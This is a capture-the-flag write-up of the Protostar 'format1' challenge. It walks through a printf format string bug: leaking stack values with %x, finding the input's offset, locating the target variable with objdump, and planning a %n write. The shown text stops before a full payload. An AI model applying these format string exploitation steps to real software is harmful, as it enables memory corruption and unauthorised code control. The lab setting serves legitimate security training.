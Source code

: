**Format1**

This was not an easy challenge.

If you look closesly at the source code you see that the printf prints string as the format string variable.

```diff
$ printf(string);
```

Let's see what happens if we insert a random string

```diff
$ user@protostar:/opt/protostar/bin$ ./format1 AAAA
AAAAuser@protostar:/opt/protostar/bin$ 
```

The printf prints out out string.
Now let's try a format string.

```diff
$ user@protostar:/opt/protostar/bin$ ./format1 %d
134518284user@protostar:/opt/protostar/bin$ 
```

This looks like a memory address, we can try to print a few with them with %x.
The hints state that objdump -t is our friend (to find target's address) and our input string lies far up in the stack.
We need to find out exactly where lies our input, insert target's address and top it with a %n to modify target with a format string exploit.
Sound complicated? Let us first find out where our string lies

```diff
$ ./format1 "$(python -c "print 'ABCDEFGH' + '%x '*150")"
ABCDEFGH804960c bffff628 8048469 b7fd8304 b7fd7ff4 bffff628 8048435 bffff7eb b7ff1040 804845b b7fd7ff4 8048450 0 bffff6a8 b7eadc76 2 bffff6d4 bffff6e0 b7fe1848 bffff690 ffffffff b7ffeff4 804824d 1 bffff690 b7ff0626 b7fffab0 b7fe1b28 b7fd7ff4 0 0 bffff6a8 39f3e985 13a7ff95 0 0 0 2 8048340 0 b7ff6210 b7eadb9b b7ffeff4 2 8048340 0 8048361 804841c 2 bffff6d4 8048450 8048440 b7ff1040 bffff6cc b7fff8f8 2 bffff7e1 bffff7eb 0 bffff9b6 bffff9c4 bffff9d8 bffff9fa bffffa0d bffffa17 bfffff07 bfffff45 bfffff59 bfffff70 bfffff81 bfffff89 bfffff99 bfffffa6 bfffffda bfffffe6 0 20 b7fe2414 21 b7fe2000 10 178bfbbf 6 1000 11 64 3 8048034 4 20 5 7 7 b7fe3000 8 0 9 8048340 b 3e9 c 0 d 3e9 e 3e9 17 1 19 bffff7cb 1f bffffff2 f bffff7db 0 0 0 a3000000 c4d03e41 d17d630f 186ae1da 692c8fff 363836 662f2e00 616d726f 41003174 **45444342** 25484746 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 user@protostar:/opt/protostar/bin$ 
```

There it is!

Now we need to find out target's address

```diff
$ objdump -t format1 | grep target
08049638 g     O .bss	00000004              target
```

Now, if we look at my python script, I bruteforced the offset of our input (I was lazy). We want to insert in our target address in little endian format.

What? why is it not aligned at all?

This took me hours on hours of debugging, we need to insert a few characters before and after our input to re-align target's address.
Then, we add the %n and look proud!